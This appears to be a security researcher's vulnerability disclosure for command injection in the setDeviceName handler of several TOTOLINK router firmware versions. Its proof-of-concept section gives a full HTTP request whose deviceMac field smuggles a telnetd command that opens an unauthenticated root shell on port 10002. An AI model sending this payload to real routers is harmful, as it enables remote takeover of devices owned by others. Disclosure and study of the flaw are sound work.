



# TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:A830R、3100R、A950RG、A800R、A3000RU、A810R

Version:A830R_Firmware(V5.9c.4729_B20191112)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/184/ids/36.html)

A3100R_Firmware(V4.1.2cu.5050_B20200504)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/170/ids/36.html)

A950RG_Firmware(V4.1.2cu.5161_B20200903)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/167/ids/36.html)

A800R_Firmware(V4.1.2cu.5137_B20200730)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/166/ids/36.html)

A3000RU_Firmware(V5.9c.5185_B20201128)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/168/ids/36.html)

A810R_Firmware)(V4.1.2cu.5182_B20201026)(Download Link:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/169/ids/36.html)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability in TOTOLINK Technology router with firmware which was released recently，allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `global.so` binary:

In `setDeviceName` function,`deviceMac、deviceName` is directly passed by the attacker, so we can control the `deviceMac、deviceName` to attack the OS.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part. 

> Complete vulnerability verification on A830R product


## PoC

We set `deviceMac` as **';telnetd -l /bin/sh -p 10002;'** , and the router will excute it,such as:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 105
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/top.asp?timestamp=1645506134
Cookie: SESSION_ID=2:1645507767:2

{"topicurl":"setting/setDeviceName","deviceMac":"';telnetd -l /bin/sh -p 10002;'","deviceName":"pjqwudi"}
```

<div  align="center"></div>


## Result
Get a shell!

<div  align="center"></div>

